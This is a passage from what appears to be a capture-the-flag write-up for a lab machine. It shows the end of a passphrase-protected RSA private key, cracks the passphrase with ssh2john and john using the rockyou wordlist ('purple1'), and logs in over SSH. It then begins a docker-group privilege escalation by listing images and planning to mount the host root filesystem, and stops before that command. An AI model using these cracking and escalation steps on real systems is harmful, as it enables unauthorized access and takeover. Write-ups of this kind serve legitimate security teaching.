 ```
uGE5dZmtyuGyD6lj1lKk8D7PbCHTBc9MMryKYnnWt7CuxFDV/Jp4fB+/DuPYL9YQ
8RrdIpShQKh189lo3dc6J00LmCUU5qEPLaM+AGFhpk99010rrZB/EHxmcI0ROh5T
1oSM+qvLUNfJKlvqdRQr50S1OjV+9WrmR0uEBNiNxt2PNZzY/Iv+p8uyU1+hOWcz
-----END RSA PRIVATE KEY-----
```
This private key is unfortunately passphrase protected, so we need to crack it.  To do this we'll load up john and run it over our standard rockyou wordlist.

```
root@kali:~/Downloads# ssh2john host_rsa > host_rsa_hash
root@kali:~/Downloads# john host_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
purple1          (host_rsa)
1g 0:00:00:00 DONE (2017-12-30 22:25) 25.00g/s 16650p/s 16650c/s 16650C/s purple1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

It cracks it almost instantly, and so we have our password `purple1`, so now we can freely SSH into the host through port 22.

![](https://preview.ibb.co/dCwjcS/image.png)

Host Privilege Escalation
-------------------------------
This escalation is pretty well known if you've ever dealt with docker or other containerisation technologies such as LXD.

```
spanishdancer@ariekei:/$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
```

Notice that the user is a member of the `docker` group. Some container solutions, including docker, will have a dedicated group to allow unprivileged users to manage their containers without having to escalate to the root user.  This is because docker requires root privileges to perform a number of actions.  Unfortunately, this also makes escalating to root, incredibly easy.  It's important to remember this, I've seen it catch a few people out.  
  
So let's use this to escalate.  Firstly, we see what images are available:  
```
spanishdancer@ariekei:/$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        3 months ago        628MB
bastion-template    latest              0df894ef4624        3 months ago        251MB
web-template        latest              b2a8f8d3ef38        3 months ago        185MB
bash                latest              a66dc6cea720        3 months ago        12.8MB
convert-template    latest              e74161aded79        19 months ago       418MB
```

We'll use the bash image for this.  Now we create a new image with bash as our template, and mount the root directory of the host in a folder called `/rootfs` within it. 
